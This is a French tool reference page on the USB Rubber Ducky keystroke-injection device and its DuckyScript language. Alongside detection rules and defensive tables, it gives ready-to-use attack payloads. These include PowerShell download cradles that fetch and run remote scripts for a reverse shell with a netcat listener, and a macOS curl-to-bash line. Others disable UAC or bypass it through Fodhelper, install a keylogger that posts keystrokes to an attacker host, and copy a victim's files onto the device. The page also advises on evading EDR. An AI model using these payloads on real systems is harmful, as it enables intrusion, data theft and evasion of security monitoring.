

# 🦆 USB Rubber Ducky — L'injection clavier en quelques millisecondes

> [!info] **En 1 phrase**
> Un gadget USB qui se fait passer pour un **clavier** et frappe un script « Duckyscript » à ~1000 mots/minute — la référence de l'**injection HID** : un branchement = shell, malware ou exfiltration.

---

## 🧾 Overview

| Champ | Valeur |
|---|---|
| Nom complet | USB Rubber Ducky (Mark I 2011, Mark II 2022) |
| Description | Gadget USB qui s'énumère comme **clavier HID** et injecte des frappes à très haute vitesse (~1000 mots/min) depuis un payload DuckyScript compilé (`inject.bin`) |
| Catégorie | 🔌 USB / HID & Gadgets |
| Sous-catégorie | Keystroke Injection (BadUSB) |
| Fonction principale | Injection de raccourcis et de texte clavier sur la machine cible en quelques secondes d'accès physique |
| Type d'outil | Hardware + langage de script (DuckyScript) |
| Licence | Firmware propriétaire Hak5 ; langage DuckyScript sous licence Hak5 ; payloads communautaires GPL |
| Open source / propriétaire | Propriétaire (firmware), open source (encoder, payloads du repo officiel) |
| Langage(s) de programmation | DuckyScript (compilé), C/AVR (firmware) |
| Développeur / organisation | Hak5 (Darren Kitchen, fondateur) |
| Projet officiel | hak5/usb-rubber-ducky · hak5/usbrubberducky-payloads |
| Dépôt officiel | https://github.com/hak5/usb-rubber-ducky — https://github.com/hak5/usbrubberducky-payloads |
| Documentation officielle | https://docs.hak5.org/usb-rubber-ducky/ |
| Date de création | 2010 (première diffusion), commercialisé en 2011 |
| État du projet | actif (Mark II toujours produit, DuckyScript 3.0 maintenu) |
| Dernière version connue | DuckyScript 3.0 (2022) — Mark II « New USB Rubber Ducky » USB-A/USB-C |
| Systèmes compatibles | Windows, macOS, Linux, ChromeOS, Android, iOS (dépend du payload et de l'OS_DETECT) |

---

## 🎯 Concept

L'USB Rubber Ducky ressemble à une clé USB lambda, mais son microcontrôleur **ATmega32u4** (Mark II) énumère un **périphérique HID clavier**. L'OS de la cible le « voit » comme un clavier légitime et **accepte ses frappes sans aucune authentification** : c'est la confiance implicite accordée au bus USB qui est exploitée (famille BadUSB). Le script d'attaque, écrit en **DuckyScript**, est **compilé** en `inject.bin` stocké sur une microSD ; un **switch physique** sélectionne le payload à exécuter. Moins d'une seconde après l'insertion, le Ducky tape un raccourci (`GUI r` pour « Exécuter » sous Windows), lance PowerShell, télécharge un payload ou exfiltre des données.

Né en 2010 chez Hak5 (Darren Kitchen l'utilisait pour automatiser ses tâches IT), le Ducky a inventé la **keystroke injection** et reste la référence pédagogique et opérationnelle du genre. **DuckyScript 1.0** (2011) ne comptait que trois commandes ; **DuckyScript 3.0** (2022) est un vrai langage structuré : variables, conditions, boucles, fonctions, extensions, détection d'OS (`OS_DETECT`), modes d'attaque (`ATTACKMODE HID STORAGE`), spoofing VID/PID, jitter et réflexion de frappes. Tous les payloads DuckyScript 1.0 restent valides en 3.0 (rétrocompatibilité totale).

Pas de vulnérabilité logicielle requise : uniquement un accès physique (ou un drop USB) et la confiance du bus USB. Le Ducky n'exécute **rien** sur la cible : il **tape**. Les protections applicatives (allow-listing, EDR) ne bloquent pas les claviers.



---

## 🧠 Concepts fondamentaux

| Concept | Explication |
|---|---|
| **HID / Keystroke Injection** | Le device s'énumère comme Human Interface Device (clavier) ; le système d'exploitation lui fait confiance et injecte les « frappes » dans la session active |
| **DuckyScript** | Langage de scripts dédié (1.0 → 3.0), compilé en binaire `inject.bin` exécuté par le firmware à l'insertion |
| **Compilation vs interprétation** | Le Ducky exécute du **code compilé** (`inject.bin`) ; le [[Outil - Bash Bunny]], le Key Croc et les [[Outil - O.MG Cable]] interprètent du DuckyScript source |
| **`ATTACKMODE`** | Mode d'énumération : `HID` (clavier), `STORAGE` (clé USB), `OFF` (invisible), ou composite `HID STORAGE` |
| **`OS_DETECT`** | Extension qui fingerprint l'OS cible pendant l'énumération → `$_OS` renvoie `WINDOWS`, `MACOS`, `LINUX`, `CHROMEOS`, `ANDROID`, `IOS` |
| **Spoofing USB** | `VID_*` / `PID_*` / `MAN_*` / `PROD_*` / `SERIAL_*` : se faire passer pour un clavier légitime (ex. Logitech K120) pour passer les allow-lists |
| **Jitter** | `$_JITTER_ENABLED` + `$_JITTER_MAX` : variabilité aléatoire inter-frappes pour imiter un humain et tromper l'EDR comportemental |
| **Keystroke Reflection** | Exploite l'endpoint **OUT** du clavier (codes LED) : certains OS renvoient des caractères aux « claviers » connectés → capture réfléchie |
| **`inject.bin`** | Payload compilé ; un switch physique (Mark II) sélectionne le slot sur la microSD |
| **MicroSD** | Support de stockage du payload ; en `ATTACKMODE STORAGE`, la microSD est exposée comme clé USB |

---

## 🛠️ Installation

Le Ducky est **prêt à l'emploi** : il ne se « flashe » pas (voir l'avertissement de Hak5). L'installation concerne l'**encoder** (compilation des payloads) et la préparation de la microSD.

### Écrire et encoder un payload

```bash
# 1. Écrire le payload en DuckyScript (payload.txt)
# 2. Encoder en inject.bin avec le DuckEncoder (Java, Linux/macOS/Windows)
git clone https://github.com/hak5/usb-rubber-ducky.git
cd usb-rubber-ducky/Encoder
java -jar duckencoder.jar -i payload.txt -o inject.bin -l us
# Windows : binaire duckencode.exe (mêmes options de ligne de commande)
# 3. Copier inject.bin à la racine de la microSD (FAT32)
# 4. Positionner le switch du Ducky sur le slot souhaité
# 5. Brancher sur la cible : l'attaque démarre à l'énumération
```

### Alternative moderne : Hak5 Payload Studio

```text
# https://payloadstudio.hak5.org/ — éditeur web officiel
# 1. Choisir la cible (USB Rubber Ducky) et le langage (DuckyScript 3.0)
# 2. Écrire le payload avec coloration, validation et versioning
# 3. Exporter vers la microSD (ou tester via l'émulateur)
# 4. Téléverser sur la cible avec le switch sur le slot désiré
```

> [!warning] ⚠️ Prérequis & problèmes potentiels
> - **Ne PAS flasher** le Mark II : la garantie ne couvre pas un flash ; architecuture pensée pour Payload Studio (toute procédure de flash concerne le Mark I legacy).
> - **Java** requis pour `duckencoder.jar` (`sudo apt install default-jre` sur Debian/Kali).
> - **Layout clavier** : encoder avec le layout cible (`-l us`, `-l fr`, …) ; un payload encodé pour QWERTY tape mal sur une machine AZERTY.
> - **microSD** : format FAT32, `inject.bin` à la racine ; LED rouge si le fichier est absent.
> - Tester impérativement sur une **VM** avant toute cible réelle (timing, layout, UAC).

---

## ⚙️ Configuration

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `inject.bin` | Payload compilé exécuté au boot | fichier binaire (root SD) | Définit l'attaque | copié via encoder |
| Switch de slots | Sélection du payload sur la microSD | slots (Mark II) | Permet d'embarquer plusieurs payloads | position 1..N |
| `DEFAULT_DELAY <ms>` | Délai par défaut entre chaque commande | entier ms | Fiabilité de l'exécution | `DEFAULT_DELAY 50` |
| `DELAY <ms>` | Pause ponctuelle | entier ms | Synchronisation avec l'OS | `DELAY 500` |
| `$_JITTER_MAX` | Intervalle max de jitter inter-frappes | 0-65535 ms (défaut 20) | Évite la détection EDR | `$_JITTER_MAX = 60` |
| `$_JITTER_ENABLED` | Active/désactive le jitter | `TRUE`/`FALSE` | Humanise la frappe | `$_JITTER_ENABLED = TRUE` |
| Layout encoder (`-l`) | Disposition du clavier cible | `us`, `fr`, `de`, `gb`… | Correct mapping des `STRING` | `-l fr` |
| `ATTACKMODE` | Mode(s) d'énumération | `HID`, `STORAGE`, `OFF`, `HID STORAGE` | Type de device vu par la cible | `ATTACKMODE HID STORAGE` |

---

## 🏗️ Architecture interne

- **Matériel** : microcontrôleur **ATmega32u4** (Mark II ; ATmega32u4 avec USB-A/USB-C), microSD, switch de slots, LED (rouge/vert/bleu), capteur éventuel, bouton.
- **Firmware** : interprète `inject.bin` (bytecode DuckyScript compilé) ; il pilote l'énumération USB (HID/STORAGE/OFF), les VID/PID, les modes composites et la réflexion de frappes. Aucun flash n'est prévu par l'utilisateur.
- **Encoder** : `duckencoder.jar` transforme le `payload.txt` (source DuckyScript) en `inject.bin` + `seed.bin` (randomisation). Payload Studio en ligne fait de même avec validations et bibliothèque.
- **Exécution du payload** : au branchement → énumération selon `ATTACKMODE` → exécution séquentielle des instructions → gestion des délais, boucles, fonctions, variables internes (`$_OS`, `$_CURRENT_VID`…), extensions (`OS_DETECT`, `KEYS`), LED.
- **Flux HID** : les « frappes » partent par l'endpoint **IN** du clavier (rapports de 8 octets : modificateurs + codes) ; la réflexion de frappes récupère les données de l'endpoint **OUT** (codes LED) renvoyés par l'OS.

---

## ⌨️ Commandes

### Commandes principales (DuckyScript)

```bash
# Payload de base : ouvrir "Exécuter" puis lancer PowerShell (Windows)
DELAY 800
GUI r
DELAY 400
STRING powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.20.15/shell.ps1')"
ENTER
```

| Commande | Effet |
|---|---|
| `REM <texte>` | Commentaire (ignoré à l'exécution) |
| `DEFAULT_DELAY <ms>` | Pause appliquée entre chaque commande (défaut 18 ms en 1.0) |
| `DELAY <ms>` | Pause ponctuelle |
| `STRING <texte>` | Tape littéralement un texte |
| `STRINGLN <texte>` | Tape un texte puis `ENTER` |
| `GUI r` / `WINDOWS r` | Ouvre la boîte « Exécuter » (Windows) |
| `ALT F2` | Boîte de commande Linux (GNOME/KDE) |
| `CTRL ALT DELETE` | Écran de sécurité Windows |
| `ENTER` / `TAB` / `ESC` | Touches de navigation |
| `ARROW_LEFT` / `ARROW_UP` / `ARROW_DOWN` / `ARROW_RIGHT` | Flèches |
| `ALT F4` | Ferme la fenêtre active |
| `CTRL SHIFT ESC` | Gestionnaire des tâches |
| `HOLD <touche>` / `RELEASE <touche>` | Maintient / relâche une touche (combinaisons longues) |
| `ATTACKMODE HID` / `STORAGE` / `OFF` | Change le mode d'énumération (re-énumère la cible) |
| `LED_R` / `LED_G` / `LED_B` | Contrôle la LED RVB du Ducky |
| `WAIT_FOR <delai>` | Attend l'état d'une touche de verrouillage (Caps/Num/Scroll) |
| `BUTTON_DEF` / `END_BUTTON` | Exécute un bloc à la pression du bouton |
| `SAVE_ATTACKMODE` / `RESTORE_ATTACKMODE` | Sauvegarde/restaure l'état ATTACKMODE |

### Commandes DuckyScript 3.0 (structuration)

```bash
REM Variables et conditions
$TARGET = "10.10.20.15"
IF $_OS = WINDOWS THEN
    GUI r
    DELAY 300
    STRINGLN powershell -w hidden -c "iwr http://$TARGET/a.ps1 -o %TEMP%\a.ps1"
END_IF
```

---

## 🎚️ Options et flags

| Option / commande | Description | Exemple | Niveau |
|---|---|---|---|
| `STRING` / `STRINGLN` | Frappe d'un texte / + Entrée | `STRINGLN exit` | Basic |
| `DELAY` / `DEFAULT_DELAY` | Timing d'exécution | `DEFAULT_DELAY 50` | Basic |
| `GUI r` | Boîte Exécuter Windows | `GUI r` | Basic |
| `HOLD` / `RELEASE` | Touches maintenues | `HOLD SHIFT DELAY 300 RELEASE SHIFT` | Intermediate |
| `ATTACKMODE HID STORAGE` | Composite clavier + clé USB | `ATTACKMODE HID STORAGE` | Intermediate |
| `IF / END_IF` | Condition (variables, `$_OS`) | `IF $_OS = MACOS THEN … END_IF` | Intermediate |
| `FUNCTION` / `END_FUNCTION` | Fonctions réutilisables | `FUNCTION OPEN_RUN() … END_FUNCTION` | Intermediate |
| `WHILE` / `FOR` / `END_WHILE` | Boucles | `WHILE TRUE … END_WHILE` | Intermediate |
| `OS_DETECT` (extension) | Fingerprint de l'OS cible | `OS_DETECT` + `$_OS` | Advanced |
| `VID_046D PID_C31C` | Spoof d'un clavier Logitech | `ATTACKMODE HID VID_046D PID_C31C` | Advanced |
| `$_JITTER_ENABLED` / `$_JITTER_MAX` | Humanisation de la frappe | `$_JITTER_MAX = 60` | Advanced |
| `HIDE_PAYLOAD` / `RESTORE_PAYLOAD` | Masque `inject.bin`/`seed.bin` sur la SD | `ATTACKMODE OFF HIDE_PAYLOAD` | Expert |
| `WAIT_FOR` | Attente des touches de verrouillage | `WAIT_FOR 2000` | Expert |
| `BUTTON_DEF` | Payload déclenché par bouton | `BUTTON_DEF … END_BUTTON` | Expert |

> [!tip] Options les plus utiles au quotidien
> `DEFAULT_DELAY 50` (fiabilité), `GUI r` + `STRING powershell` (chargeur), `IF $_OS = … THEN` (multi-OS), `ATTACKMODE HID STORAGE` (exfil physique), `$_JITTER_ENABLED = TRUE` (furtivité).

---

## 🧪 Exemples pratiques

### Beginner

Le test de base (ouvrir le Bloc-notes et taper un texte) est présent dans la **Cheatsheet** ci-dessous ; les exemples ci-après montrent les usages intermédiaires et avancés.

### Intermediate

Le payload « sans fichier » est détaillé dans le **Workflow complet** ci-dessous.

### Advanced

```bash
# Objectif : payload multi-OS avec OS_DETECT (un seul inject.bin)
REM OS detection : Windows / macOS / Linux
OS_DETECT
IF $_OS = WINDOWS THEN
    GUI r
    DELAY 300
    STRINGLN powershell -w hidden -c "iwr http://10.10.20.15/w.ps1 -o %TEMP%\w.ps1; & %TEMP%\w.ps1"
ELSE IF $_OS = MACOS THEN
    GUI SPACE
    DELAY 500
    STRINGLN terminal
    DELAY 500
    STRINGLN curl -k http://10.10.20.15/m.sh | bash
END_IF
```

---

## 🧪 Workflow complet (scénario pas à pas)

1. **Écrire le payload** — un reverse shell PowerShell « sans fichier » (download cradle) :
   ```bash
   REM Reverse shell PowerShell via download cradle
   DELAY 800
   GUI r
   DELAY 400
   STRING powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.20.15/shell.ps1')"
   ENTER
   ```
2. **Encoder** — `java -jar duckencoder.jar -i payload.txt -o inject.bin -l us`.
3. **Copier sur la microSD** — `inject.bin` à la racine ; switch sur le slot voulu.
4. **Écouter côté attaquant** — `nc -lvnp 4444` sur le C2 avant l'insertion.
5. **Brancher le Ducky** — la LED clignote pendant l'exécution ; valider le shell obtenu puis nettoyer les traces (logs, sessions).

---

## 🎬 Scénarios avancés

### Scénario 1 : Reverse shell PowerShell avec baisse de l'UAC (download cradle)

```bash
REM Désactiver EnableLUA puis reverse shell
DELAY 800
GUI r
DELAY 400
STRING powershell -w hidden -nop -c "Set-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name EnableLUA -Value 0; IEX(New-Object Net.WebClient).DownloadString('http://10.10.20.15/shell.ps1')"
ENTER
```

L'injection HID contourne les protections applicatives (le clavier est un périphérique légitime) ; le payload final doit rester adapté à l'OS et à l'EDR cibles (obfuscation, bypass AMSI, exécution en mémoire).

### Scénario 2 : UAC bypass via Fodhelper + session administrateur

```bash
REM Créer une clé de registre Fodhelper puis lancer la commande (UAC bypass)
DELAY 800
GUI r
DELAY 400
STRING cmd /c reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /v DelegateExecute /t REG_SZ /d "powershell -w hidden -nop -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.20.15/shell.ps1')" /f
ENTER
```

Le système relaie l'exécution via `fodhelper.exe` en tant qu'administrateur : technique classique de contournement UAC (trace Sysmon dans `HKCU\Software\Classes`).

### Scénario 3 : Keylogger + exfiltration HTTP

```bash
REM Installer un keylogger PowerShell furtif
DELAY 1000
GUI r
DELAY 400
STRING powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.20.15/key.ps1')"
ENTER
```

Le payload `key.ps1` boucle sur `GetAsyncKeyState` (P/Invoke user32), journalise la fenêtre active et les touches, puis `POST` vers `http://10.10.20.15/keys` avec persistance via la clé de registre `Run`.

### Scénario 4 : Exfiltration silencieuse sur la microSD (mode composite)

```bash
REM Copier un fichier sensible vers la clé USB exposée (ATTACKMODE HID STORAGE)
ATTACKMODE HID STORAGE
DELAY 2000
GUI r
DELAY 300
STRING powershell -w hidden -c "$m=(Get-Volume -FileSystemLabel 'DUCKY').DriveLetter; Copy-Item C:\Users\victime\Documents\secret.txt $m:\;"
ENTER
DELAY 1500
ATTACKMODE OFF
```

Le payload (lui-même sur la SD) copie des données vers la partie « clé USB » de la même microSD : exfiltration physique sans réseau.

---

## 🛡️ Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Accès initial | USB drop (parking, réception) ou branchement direct : injection immédiate de payload |
| Exécution | Lancement de PowerShell/cmd via clavier « légitime » (pas de fichier à la cible) |
| Persistance | Écriture de clés de registre, services, tâches planifiées |
| Exfiltration | Copie sur la microSD (`ATTACKMODE STORAGE`) ou réseau via le payload |
| Évasion de défense | Contourne allow-listing applicatif et EDR (le clavier est fiable) ; jitter et spoof VID/PID |
| Exploitation physique | UAC bypass, Reverse Shell, keylogging dans le cadre d'un engagement autorisé |

---

## 🎯 MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Initial Access | Hardware Additions | T1200 | Le Ducky est un add-on matériel branché sur la cible pour lancer l'attaque | Event ID 6416 (nouveau HID), contrôle des ports USB | USB device control, allow-list VID/PID, ports verrouillés |
| Execution | Windows Command Shell | T1059.003 | Les payloads ouvrent `cmd`/`powershell` pour exécuter des commandes | Sysmon 1 (cmd/powershell), ScriptBlock Logging | Application control, AMSI, restriction PowerShell |
| Execution | PowerShell | T1059.001 | Download cradle et reverse shell PowerShell récurrents | Event ID 4104 (ScriptBlock), 4688 | AMSI, Constrained Language Mode, WDAC |
| User Execution | Malicious File | T1204.002 | La victime branche la clé ; le payload exécute le contenu téléchargé | Événements de connexion de devices | Sensibilisation USB, politiques de médias amovibles |
| Lateral Movement | Replication Through Removable Media | T1091 | Le Ducky se propage via supports amovibles (microSD, fichiers copiés) | Surveillance des devices de stockage, Autorun | Désactivation de l'autorun, contrôle des médias |
| Collection | Input Capture | T1056.001 | Keylogger installé par le payload (GetAsyncKeyState) | GetAsyncKeyState anormal, hooks clavier | EDR comportemental, supervision API |

---

## 🛡️ Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Nouveau périphérique HID inconnu énuméré | Event ID 6416 (SetupAPI/Kernel-PnP), VID/PID non répertorié |
| Vitesse de frappe inhumaine (> 1000 mpm) | Un humain plafonne ~200 mpm ; pas d'erreur de frappe |
| `powershell.exe` / `cmd.exe` lancés au branchement | Corrélation temporelle entre insertion USB et processus |
| Latence entre clés = zéro (pas de jitter) | Mesure des intervalles inter-frappes (EDR comportemental) |
| Trafic réseau sortant juste après l'insertion | Download cradle vers C2 : DNS/HTTP anormaux |
| Écritures de registre `HKCU\Software\Classes` | UAC bypass (Fodhelper, SilentCleanup) : Sysmon Event ID 13 |
| Fichier `inject.bin` retrouvé sur des clés USB | Politique USB stricte, inventaire |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Sigma — Windows : powershell.exe lancé peu après l'énumération d'un nouveau HID
title: Suspicious PowerShell Launch After USB HID Enumeration
id: 9c7d4a2f-3f8e-4b6a-9d1e-7c2a5f8b0e41
status: experimental
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4688
        NewProcessName|endswith:
            - '\powershell.exe'
            - '\pwsh.exe'
            - '\cmd.exe'
    timeframe: 10s
    condition: selection
falsepositives:
    - Raccourci clavier utilisateur légitime (ex. Win+R + PowerShell)
level: high
```

```yaml
# YARA — recherche de payloads DuckyScript sources (payload.txt)
rule DuckyScript_Payload {
    strings:
        $a = "GUI r" ascii
        $b = "DELAY" ascii
        $c = "IEX(New-Object Net.WebClient)" ascii wide
        $d = "downloadstring" ascii wide nocase
    condition:
        $b and 1 of ($a, $c, $d)
}
```

---

## 🤖 Automatisation

```bash
# Bash — encoder en boucle tous les payloads d'un dossier
for f in payloads/*.txt; do
    java -jar duckencoder.jar -i "$f" -o "sd/$(basename "$f" .txt).bin" -l us
done
```

```python
# Python — génération d'un payload DuckyScript paramétré
def build_payload(ip: str) -> str:
    return f"""DELAY 800
GUI r
DELAY 400
STRING powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://{ip}/shell.ps1')"
ENTER"""

with open('payload.txt', 'w') as f:
    f.write(build_payload('10.10.20.15'))
# Puis : java -jar duckencoder.jar -i payload.txt -o inject.bin -l us
```

---

## 📤 Output et parsing

Le Ducky n'a pas de sortie « console » : son résultat est l'**effet produit sur la cible** (processus, fichiers, registre, réseau). Les canaux d'observation sont indirects :

| Canal | Ce qu'on observe | Où |
|---|---|---|
| LED du Ducky | État d'exécution du payload | Matériel (rouge = inject.bin absent, vert = prêt) |
| Réponse de la cible | Shell reverse, fichiers, clés de registre, trafic | C2, SIEM, Sysmon |

```python
# Python — parsing des événements 4688/6416 corrélés (analyse offline)
import xml.etree.ElementTree as ET
tree = ET.parse('sysmon.xml')
for event in tree.iter('Event'):
    if event.find('EventID').text == '6416':
        dev = event.findtext('.//Data[@Name="DeviceDescription"]')
        print('Nouveau device HID :', dev)
```

---

## 🔗 Intégrations

- [[Tools|🧰 Outils]] global
- [[Outil - Bash Bunny]] — version multi-vecteurs (HID, storage, réseau, série) du même écosystème
- [[Outil - Hak5 Payload Studio]] — éditeur web officiel pour créer/encoder les payloads
- [[Outil - Duckuino]] — équivalent Arduino/ATtiny pour payer moins cher
- [[Outil - USB Host Shield]] — interception passive (complément de l'injection)
- [[Outil - Flipper Zero (USB & radio)]] — BadUSB alternatif de poche
- [[Outil - O.MG Cable]] — DuckyScript interprété embarqué dans un câble
- [[Outil - P4wnP1 A.L.O.A.]] — HID + réseau sur Raspberry Pi Zero
- [[Outil - Metasploit]] / [[Outil - PowerShell Empire]] — reverse shells servis aux payloads Ducky
- [[Techniques/Protocole USB]] — base protocolaire (HID, endpoints)

---

## 🔄 Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| [[Outil - Bash Bunny]] | Multi-vecteurs (HID + storage + réseau + série), DuckyScript 2.x, payloads communautaires | Plus cher, interprété (plus lent au boot) | Opérations polyvalentes |
| [[Outil - Duckuino]] | Clés Arduino à ~10 €, DuckyScript compilé pour ATtiny | Fiabilité moindre, layout figé au flash | Budget, apprentissage |
| [[Outil - Flipper Zero (USB & radio)]] | BadUSB + RFID + radio, badge discret | Moins de contrôle USB avancé | Pentest physique polyvalent |
| [[Outil - O.MG Cable]] | Câble caméléon, contrôle distant (WiFi/BLE), DuckyScript interprété | Coût élevé, maintenance firmware | Implant dissimulé longue durée |
| [[Outil - P4wnP1 A.L.O.A.]] | HID + Ethernet/Bluetooth, scripts complets, WebUI | Setup complexe, encombrant | Plateforme offensive sur RPi |
| [[Outil - USB Host Shield]] | Interception passive (keystroke logging matériel) | Pas d'injection clavier simple | Écoute plutôt qu'injection |

---

## ⚡ Performance

- **Vitesse d'injection** : ~1000 mots/minute annoncés ; en pratique le débit HID (125 Hz, 8 octets) permet plusieurs centaines de caractères/s. L'EDR moderne le détecte → réduire avec jitter (`$_JITTER_MAX`).
- **Latence de démarrage** : l'attaque démarre dès l'énumération USB (< 1-2 s selon l'OS) ; `DELAY` initial absorbe les variations de boot.
- **Stockage** : microSD (typiquement 32-64 Go max) → le payload pèse quelques Ko ; la capacité sert surtout en mode `STORAGE` (exfil).
- **Consommation** : quelques dizaines de mA (ATmega32u4 + SD) — n'alourdit pas la cible, mais un PC verrouillé en veille peut ne pas s'éveiller.
- **Échelle** : un Ducky = un payload à la fois par slot ; prévoir plusieurs Ducky ou slots pour des opérations parallèles.

---

## 🛠️ Troubleshooting

### Common problems

#### Problème : LED rouge à l'insertion, rien ne se passe

- **Cause** : `inject.bin` absent ou illisible à la racine de la microSD.
- **Solution** : re-encoder et copier `inject.bin` à la racine (FAT32) ; vérifier le switch de slot. **Vérification** : la LED passe au vert pendant l'exécution.

#### Problème : les `STRING` tapent des caractères incorrects

- **Cause** : payload encodé avec le mauvais layout (ex. `-l us` sur machine AZERTY).
- **Solution** : encoder avec le layout cible (`-l fr`), ou utiliser des codes de touches explicites. **Vérification** : tester sur VM avec le même layout.

#### Problème : le payload s'exécute trop tôt (fenêtre pas prête)

- **Cause** : `DELAY` insuffisant entre l'ouverture de la boîte et la frappe.
- **Solution** : augmenter les délais ou utiliser `DEFAULT_DELAY 50` + `WAIT_FOR` (touches de verrouillage). **Vérification** : monter la VM en mode pas-à-pas.

#### Problème : l'EDR détecte l'injection (frappe à 1000 mpm)

- **Cause** : intervalles inter-frappes trop réguliers et trop rapides.
- **Solution** : `$_JITTER_ENABLED = TRUE` + `$_JITTER_MAX`, espacer les commandes, limiter la longueur des `STRING`. **Vérification** : logs EDR sans alerte d'injection HID.

#### Problème : `ATTACKMODE` re-enumere et perd le shell

- **Cause** : changer de mode en plein payload force une ré-énumération USB.
- **Solution** : placer les changements de mode au début/fin du payload (`ATTACKMODE HID STORAGE` puis `OFF` après exfil). **Vérification** : observer l'ordre des événements 6416.

---

## 🔐 Sécurité de l'outil

- **Légalité** : l'injection de payloads sur une machine sans autorisation est illégale. Utiliser uniquement en test autorisé (mandat, lab, machines dédiées).
- **Confidentialité des payloads** : un `inject.bin` est trivial à désassembler ; ne pas y stocker de secrets. `HIDE_PAYLOAD` ne protège que contre la curiosité basique.
- **Hygiene de la microSD** : chiffrer les données exfiltrées ; formater la SD après chaque engagement.
- **Détection par la cible** : le Ducky est identifiable (VID/PID Hak5) — utiliser le spoofing `VID/PID/MAN/PROD/SERIAL` et un jitter réaliste pour limiter la détection.
- **Mises à jour** : suivre les canaux officiels Hak5 (firmware Mark I, Payload Studio, docs) ; ne jamais flasher le Mark II avec du firmware tiers.

---

## ⚠️ Limitations

- **N'exécute rien sur la cible** : il ne fait que « taper » ; tout outil/payload doit être téléchargé ou déjà présent.
- **Dépend de la session active** : sur un écran verrouillé, la plupart des raccourcis ne fonctionnent pas (prévoir `WAIT_FOR`/écran de login, ou des vecteurs physiques).
- **Layout clavier figé à l'encodage** : un payload encodé `us` tape faux sur AZERTY ; il faut prévoir le layout ou une logique multi-layouts.
- **Énumération lisible** : le device apparaît dans l'inventaire USB ; un contrôle physique ou des allow-lists le détectent.
- **Pas de réseau embarqué** (contrairement au [[Outil - Bash Bunny]]) : l'exfil réseau dépend du payload et du réseau de la cible.
- **DuckyScript 3.0 non universel** : certaines commandes (`MATCH`, `SAVEKEYS`) sont propres au Key Croc ; vérifier la compatibilité device dans la doc.

---

## 📋 Cheatsheet

```bash
# Encodage d'un payload
java -jar duckencoder.jar -i payload.txt -o inject.bin -l us

# Payload de base Windows : boîte Exécuter + PowerShell
DELAY 800
GUI r
DELAY 400
STRING powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.20.15/shell.ps1')"
ENTER

# Multi-OS
OS_DETECT
IF $_OS = WINDOWS THEN ... END_IF

# Exfil physique : clavier + clé USB
ATTACKMODE HID STORAGE
DELAY 2000
GUI r
DELAY 300
STRING powershell -w hidden -c "Copy-Item C:\Users\victime\secret.txt (Get-Volume -FileSystemLabel 'DUCKY').DriveLetter + '\';"
ENTER
ATTACKMODE OFF

# Furtivité
$_JITTER_ENABLED = TRUE
$_JITTER_MAX = 40
ATTACKMODE HID VID_046D PID_C31C
```

---

## ⚡ Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Injecter des frappes clavier (raccourcis, commandes) à ~1000 mots/min pour exécuter des payloads sur la cible |
| **Quand l'utiliser ?** | Accès physique à un poste (engagement autorisé, USB drop, lab) : shell, keylogging, exfil |
| **Commande principale** | `GUI r` + `STRING powershell -w hidden -c "IEX(...)"` + `ENTER` |
| **Alternative principale** | [[Outil - Bash Bunny]] (multi-vecteurs) · [[Outil - Duckuino]] (budget) · [[Outil - Flipper Zero (USB & radio)]] |
| **Concepts importants** | Keystroke injection, DuckyScript 3.0, `ATTACKMODE`, `OS_DETECT`, jitter, spoofing VID/PID |
| **Liens associés** | [[Outil - Hak5 Payload Studio]] · [[Outil - Bash Bunny]] · [[Outil - O.MG Cable]] · [[Techniques/Protocole USB]] |

---

## 🔍 Détection & Défense

| Signe | Défense |
|---|---|
| Nouveau périphérique HID inconnu énuméré (Event ID 6416, SetupAPI) | Allow-list USB : n'autoriser que les clavier/souris connus (GPO, Device Guard, contrôle VID/PID) |
| Vitesse de frappe inhumaine (> 1000 mpm) | EDR avec détection d'injection HID (modèle comportemental de frappe) |
| `powershell.exe` lancé au branchement / activité anormale à t0 | Execution policy, AMSI, « Windows Defender Application Control », restriction PowerShell |
| Fichier `inject.bin` retrouvé sur des clés USB | Politique USB stricte : ports désactivés, blocage par empreinte, « USB condom » (charge-only) |
| Trafic réseau sortant anormal juste après insertion | DLP + supervision DNS/HTTP (canal C2), segmentation réseau |
| Écritures de registre anormales dans `HKCU\Software\Classes` | Supervision des clés UAC bypass (Fodhelper, SilentCleanup), Sysmon Event ID 13 |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Tips**
> - Toujours tester sur une VM (VirtualBox/VMware) avant la cible réelle : le timing (`DELAY`) varie selon la machine et l'OS.
> - Préférer `DEFAULT_DELAY 50` aux `DELAY` épars : exécution plus fiable et plus rapide.
> - Sur le Ducky Mark II, les slots multiples (switch) permettent d'embarquer plusieurs payloads et de basculer sans reflash.
> - Utiliser `HOLD`/`RELEASE` pour les combinaisons longues (surbrillance, copier-coller).
> - Activer `OS_DETECT` pour qu'un seul `inject.bin` couvre Windows, macOS et Linux.

> [!warning] ⚠️ **Pièges**
